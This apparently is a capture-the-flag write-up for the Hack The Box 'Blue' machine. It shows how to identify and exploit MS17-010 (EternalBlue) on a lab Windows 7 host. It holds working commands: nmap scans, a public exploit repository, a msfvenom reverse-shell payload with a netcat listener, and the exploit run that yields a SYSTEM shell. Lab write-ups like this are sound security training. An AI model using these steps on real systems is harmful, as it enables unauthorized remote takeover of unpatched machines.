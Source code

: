 # Blue
![info-card](./info_card.png)

## Initial Enumeration

Like any other target, we'll start off with a quick port scan to see what we're working with:

```bash
nmap -sV 10.10.10.40
```

![Initial Nmap Scan](./initial_nmap.png)

Judging by this output and the name of the box, It's pretty safe to assume we're looking at [Eternal Blue](https://en.wikipedia.org/wiki/EternalBlue). We can use some NSE scripts to verify that for us though:

```bash
nmap -p 139,445 --script=smb-vuln* 10.10.10.40
```

![SMB Vulnerability Scan](./smb_nmap.png)

Bingo, now we just have to find ourselves an exploit. While we could easily do this with Metasploit, I'd prefer to go through the steps (semi)manually. Throughout my OSCP I've found this [repo](https://github.com/worawit/MS17-010) to work pretty well. So first we'll clone the repo and run their checker script to verify the vulnerability: 

```bash
git clone https://github.com/worawit/MS17-010.git
cd MS17-010
./checker.py 10.10.10.40
```

![Eternal Blue Validation](./eternal_checker.png)

## Exploitation

Looking at the output it seems like we are good to continue down this path. Our next step will be to generate the payload we want to be executed by the exploit, which will be our reverse shell. The automation scripts in the this repo build the shellcode for both `x86` and `x64`, but for our purposes we'll only generate one stageless payload for `x64` (this is just an educated guess). If you take a look at the script `shellcode/shell_prep.sh` you can see what needs to be done. Basically we use `nasm` to compile the kernel shell code, generate our reverse shell with `msfvenom`, then combine the two:

```bash
cd shellcode

nasm -f bin eternalblue_kshellcode_x64.asm -o kernel.bin

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o reverse.bin EXITFUNC=thread LHOST=$(tunip) LPORT=4443

cat kernel.bin reverse.bin > payload.bin
```

{% hint %}
`tunip` is aliased to `ifconfig tun0 | sed -n '2 p' | awk '{print \$2}'`. This is simply a shortcut to get my current Hack The Box vpn ip address.
{% endhint %}

With our payload generated, we just need to start a netcat listener on port `4443` and fire off the exploit (pro tip: tmux makes managing the different terminals for this a breeze). From the output of `checker.py` we also know the operating system is Windows 7, so we'll use `eternalblue_exploit7.py`:

```bash
# In tmux pane A:
nc -nvlp 4443

# In tmux pane B:
python eternalblue_exploit7.py 10.10.10.40 shellcode/payload.bin

```

This gives us a reverse shell as `nt authority\system` and we are able to read the root and user flags:

![Flags](./flags.png)
